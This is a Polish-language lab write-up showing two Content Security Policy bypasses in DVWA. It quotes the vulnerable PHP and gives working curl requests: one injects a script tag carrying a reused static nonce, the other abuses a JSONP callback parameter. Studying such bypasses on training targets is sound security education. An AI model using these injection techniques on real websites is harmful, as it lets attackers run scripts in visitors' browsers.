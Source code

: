# CSP - Content Security Policy Bypass
## Opis techniki
<blockquote> Content Security Policy (CSP) służy do definiowania, skąd można ładować lub wykonywać skrypty i inne zasoby. Content-Security-Policy to nazwa nagłówka odpowiedzi HTTP, którego przeglądarki używają do zwiększenia bezpieczeństwa dokumentu (lub strony internetowej). Nagłówek Content-Security-Policy pozwala ograniczyć, które zasoby (takie jak JavaScript, CSS, obrazy itp.) mogą być ładowane i z jakich adresów URL mogą być ładowane.

Chociaż jest on używany głównie jako nagłówek odpowiedzi HTTP, można go również zastosować za pomocą metatagu.

CSP został zaprojektowany w celu zmniejszenia powierzchni ataku ataków Cross Site Scripting (XSS), późniejsze wersje specyfikacji chronią również przed innymi formami ataków, takimi jak Click Jacking.
  
Opisane poniżej podatności nie dotyczą stricte CSP, a błędów w jej implementacji.
</blockquote>

## DVWA labs

- [DVWA SQLi #1 - Medium](#dvwa-csp-1---medium)

- [DVWA SQLi #2 - High](#dvwa-csp-2---high)

Powtórzenie podanych przykładów wymaga zmiany adresu IP oraz tokenu sesji.

<br/>

## DVWA CSP #1 - Medium
Cel: Uruchomienie pliku z kodem JavaScript.

Na poziomie średnim polityka CSP próbuje użyć nonce, aby zapobiec dodawaniu skryptów inline przez atakujących. Nonce jest stałe, więc można je odczytać ze źródła strony i wykorzystać w spreparowanym zapytaniu.

#### Kod źródłowy `PHP` 

```php

 <?php

$headerCSP = "Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';";

header($headerCSP);

// Disable XSS protections so that inline alert boxes will work
header ("X-XSS-Protection: 0");

# <script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>

?>
<?php
if (isset ($_POST['include'])) {
$page[ 'body' ] .= "
    " . $_POST['include'] . "
";
}
$page[ 'body' ] .= '
<form name="csp" method="POST">
    <p>Whatever you enter here gets dropped directly into the page, see if you can get an alert box to pop up.</p>
    <input size="50" type="text" name="include" value="" id="include" />
    <input type="submit" value="Include" />
</form>
';

```
Plik 'new.js' jest wysyłany na serwer zgodnie z opisem podatności wysyłania plików (https://github.com/249064/CBE-BAW-2023/blob/main/file_upload.md). Zostaje umieszczony w ścieżce "../../hackable/uploads/new.js". Kod w pliku: [alert("sukces");].
Następnie wysyłane jest spreparowane zapytanie wykorzystujące XSS do uruchomienia podanego skryptu, wraz z nonce odczytanym ze źródła strony.

#### Komenda `curl` 

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 10.10.147.162' -H $'Content-Length: 140' -H $'Cache-Control: max-age=0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://10.10.147.162' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Referer: http://10.10.147.162/vulnerabilities/csp/' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
    -b $'PHPSESSID=0itseg0m3lh218vibq3kl391k2; security=medium' \
    --data-binary $'include=%3Cscript+nonce%3D%22TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA%3D%22+src%3D%22..%2F..%2Fhackable%2Fuploads%2Fnew.js%22%3E+%3C%2Fscript%3E+' \
    $'http://10.10.147.162/vulnerabilities/csp/'
```

#### Efekt działania skryptu:
![image](https://github.com/249064/CBE-BAW-2023/assets/133172137/1f49a2cb-a262-4a14-acbe-7407f4f3c8d9)

Kod z pliku został wykonany.
<br/>

<br/>
<br/>

## DVWA CSP #2 - High

Cel: Uruchomienie własnego kodu JavaScript

CSP ogranicza zakres skryptów które mogą zostać uruchomione poprzez określenie "script-src 'self'".

#### Kod źródłowy `PHP` 

```php
?php
$headerCSP = "Content-Security-Policy: script-src 'self';";

header($headerCSP);

?>
<?php
if (isset ($_POST['include'])) {
$page[ 'body' ] .= "
    " . $_POST['include'] . "
";
}
$page[ 'body' ] .= '
<form name="csp" method="POST">
    <p>The page makes a call to ' . DVWA_WEB_PAGE_TO_ROOT . '/vulnerabilities/csp/source/jsonp.php to load some code. Modify that page to run your own code.</p>
    <p>1+2+3+4+5=<span id="answer"></span></p>
    <input type="button" id="solve" value="Solve the sum" />
</form>

<script src="source/high.js"></script>
';

```
Przejęte zostaje zapytanie i zmieniony zostaje parametr "callback".

#### Komenda `curl` 

```bash
curl -i -s -k -X $'GET' \
    -H $'Host: 10.10.147.162' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36' -H $'Accept: */*' -H $'Referer: http://10.10.147.162/vulnerabilities/csp/' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
    -b $'PHPSESSID=0itseg0m3lh218vibq3kl391k2; security=high' \
    $'http://10.10.147.162/vulnerabilities/csp/source/jsonp.php?callback=alert(\"sukces\")'
```

#### Efekt działania skryptu:
![image](https://github.com/249064/CBE-BAW-2023/assets/133172137/04aa4662-d8df-4acd-9812-6013c6a63c78)

Przekazany kod został uruchomiony mimo wykorzystania CSP.
<br/>
